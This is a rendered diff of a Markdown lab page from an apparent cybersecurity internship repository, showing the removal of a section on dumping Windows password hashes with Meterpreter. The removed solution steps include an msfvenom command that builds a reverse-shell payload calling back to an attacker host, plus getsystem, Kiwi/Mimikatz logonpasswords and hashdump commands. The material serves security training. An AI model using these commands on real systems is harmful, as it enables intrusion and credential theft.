

Before and after one commit to aaronamran/MCSI-Remote-Cybersecurity-Internship, a Markdown page: Security Tools/meterpreter-escalate-privileges.md, the part around one of its changes. Shown at 89% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Security Tools/meterpreter.md
+++ b/Security Tools/meterpreter-escalate-privileges.md
@@ -40,39 +38,3 @@ Gaining SYSTEM privileges on a Windows machine is essential for penetration test
 Sample screenshot of a successful Meterpreter session is shown below:
 
 ![image](https://github.com/user-attachments/assets/e61bc49c-66f1-4a0a-8025-539e6ed14d7d)
-
-
-## Use Meterpreter To Dump Password Hashes Stored In The SAM Database And LSASS
-In cybersecurity, understanding how attackers extract credentials is key to effective defense. Meterpreter, a post-exploitation tool, enables attackers to access compromised Windows systems and extract sensitive data like password hashes. Through Meterpreter, tools like Mimikatz can dump password hashes from LSASS memory and the SAM database
-
-#### References
-- [Meterpreter Basics](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump)
-- [Mimikatz](https://www.offsec.com/metasploit-unleashed/mimikatz/)
-
-#### Tasks
-- Launch Metasploit and use an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine
-- Once you have a Meterpreter session, use the "getsystem" command to escalate privileges to SYSTEM level
-- Use the "getuid" command to display the current user's privileges
-- Use Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory
-- Use the "hashdump" command in Meterpreter to dump password hashes from the SAM database
-
-
-#### Solutions
-1. Since Kiwi is an integration of Mimikatz into Metasploit by providing functionality directly in a Meterpreter session, it requires a 64-bit Meterpreter session to avoid errors such as `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`
-2. If the reverse shell in the previous Meterpreter task is 32-bit, recreate a new 64-bit reverse shell using the command:
-   ```
-   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
-   ```
-3. Move the reverse shell from the Desktop directory into the web server directory (/var/www/html)
-4. Download the reverse shell in the Windows 10 VM and run it as an administrator
-5. Once a Meterpreter session is available in Kali Linux, run `getsystem` to escalate privileges
-6. Confirm you are running as a SYSTEM user using `getuid`. You should see something like `Server username: NT AUTHORITY\SYSTEM`
-7. To load Mimikatz in Meterpreter session, use `load kiwi`
-8. Use `kiwi_cmd sekurlsa::logonpasswords` to extract credentials from LSASS memory. This will dump usernames and password hashes
-9. To dump password hashes from the SAM database, use `hashdump`
-
-Screenshot of how Kiwi is used in a Meterpreter session:
-![image](https://github.com/user-attachments/assets/3fbaa79a-b163-43d5-bc50-7bb025b4c288)
-
-Screenshot of how hashdump is used in a Meterpreter session:
-![image](https://github.com/user-attachments/assets/5ded7cc0-7b98-4ad2-8e50-a35ff5841958)
````
Also changed, not shown: other parts of Security Tools/meterpreter-escalate-privileges.md (+4 -6 lines).
